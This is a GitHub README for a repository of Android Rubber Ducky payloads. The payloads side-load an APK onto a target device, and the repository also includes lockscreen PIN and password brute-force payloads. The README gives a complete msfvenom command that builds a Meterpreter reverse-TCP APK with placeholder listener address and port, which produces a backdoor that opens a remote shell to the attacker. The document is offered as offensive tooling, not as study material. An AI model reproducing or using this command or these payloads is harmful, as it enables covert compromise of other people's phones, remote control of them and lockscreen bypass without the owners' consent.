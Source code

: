 # ANDROID_BLANKET_PARTY
This repository houses all my Android Rubber Ducky payloads

//BLANKET PArty as in that iconic scene from "FUll MEtal Jacket"
![image](https://github.com/salvat1on/ANDROID_BLANKET_PARTY/assets/27372029/4ca1e4a8-846d-4da1-b140-8399392bd945)

These payloads will install an apk to the target device that resides in the ducky storage
the [STAND-ALONE] Pin / Password lockscreen brute force payloads will also be included in 
this Repository.

You can create an APK Payload with metasploit with the following command in the terminal

msfvenom -p android/meterpreter_reverse_tcp LHOST=YOUR_ADDRESS LPORT=5555 -o WHATEVER_NAME.apk


